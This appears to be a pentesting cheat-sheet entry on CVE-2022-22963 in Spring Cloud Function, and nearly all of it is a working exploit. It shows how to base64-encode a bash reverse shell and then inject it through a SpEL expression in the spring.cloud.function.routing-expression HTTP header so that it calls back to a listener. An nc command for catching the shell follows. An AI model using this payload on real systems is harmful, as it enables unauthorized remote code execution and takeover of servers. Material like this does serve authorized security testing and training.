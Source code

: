 # Spring Cloud Function

{% embed url="https://www.cvedetails.com/cve/CVE-2022-22963/" %}

```bash
echo -n "bash -i >& /dev/tcp/YOUR_IP/1337 0>&1" | base64
```

Payload HTTP Header

```java
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash
-c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMzM3IDA+JjE=}|{base64,-d}|{bash,-
i}")
```

```bash
nc -nvlp 1337
```
